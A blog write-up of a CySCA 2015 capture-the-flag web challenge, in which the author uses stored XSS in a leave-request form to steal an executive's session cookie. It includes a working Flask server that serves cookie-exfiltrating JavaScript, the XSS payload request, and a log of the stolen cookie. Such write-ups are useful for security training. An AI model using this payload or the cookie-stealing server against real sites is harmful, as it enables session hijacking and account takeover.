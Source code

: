 ```yaml
---
title: CySCA 2015 - Web Application Pentest 4 - Business Excellence
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-2015/">check out this post</a> on 
how to get the environment set up.</i>
</div>

* * *


We need to gain access to the CVO (Angelina's) account. In order to do this, we
most likely will need to steal a cookie. We take a look in the leave details 
section and put in a leave request to see if it's XSS protected. Additionally,
we notice that the session cookie on this website  *is not* `HTTPOnly`. Time
to steal.

The browser will prevent javascript accessing `HTTPOnly` cookies, hence, if it 
was HTTP Only, we would be looking in the wrong place. 

We do the naive thing and just put `<h1>Hello</h1>` in. However, the ticker spits 
out `WARNING: XSS detected! You have been reported.`. Additionally, it appears 
the XSS is stripped client side too. 

Lets take this to a [PostMan](https://chrome.google.com/webstore/detail/postman/fhbjgbiflinjbdggehcddcbncdddomop?hl=en) session rather than mucking around with 
request stripping. 

We also fire up a little flask web-app to steal the user's session. 

{% highlight python %}
from flask import Flask
import sys
app = Flask(__name__)

if len(sys.argv) < 3:
    print("Usage: {} <Listen IP Address> <Listen Port>".format(sys.argv[0]))
    print("Listen IP Must be a reachable machine IP from the box")
    exit(1)

host = sys.argv[1]; port = int(sys.argv[2])

@app.route('/')
def hello_world():
    return 'Hello World! <script src="http://{}:{}/r.js"></script>'.format(host,port)

@app.route('/r.js')
def steal():
    return """
    var url = 'http://{}:{}/url?'+ document.cookie;
    document.write('<img src="' + url +'" />');
    """.format(host, port)

if __name__ == '__main__':
    app.run(debug=True, port=port, host='0.0.0.0')

{% endhighlight %}

We send off the following request:

{% highlight text %}
POST /service/leave HTTP/1.1
Host: www.ecwi.cysca
Cache-Control: no-cache

start: 11/19/2015
end: 12/19/2015
reason: <Script src="http://x.x.x.x/r.js"></Script>
{% endhighlight %}

(Replacing x.x.x.x my your machine's accessible IP address)

We notice that the ticker says "WARNING: XSS detected! You have been reported." 
however, we still wait. Within 2 minutes, our javascript gets loaded, and we've
stolen the user's session cookie:

{% highlight text %}
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /r.js HTTP/1.1" 200 -
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /url?session=eyJfZnJlc2giOnRydWUsIl9pZCI6eyIgYiI6IlltSmtNemxpT1RCbE56TTJNakkwTkRVMU0yTXpPVFZpTkRoa01tWm1Zek09In0sInVzZXJfaWQiOiI1In0.CS8EeQ.fNfERZulfSlUGpMSNEnsN2TBnzQ HTTP/1.1" 404 -
{% endhighlight %}

We replace our session cookie with this one, and now we've logged in, reavealing
the flag in the ticker:

> You're an Executive! - FLAG{3a000000000000000000000000000000}


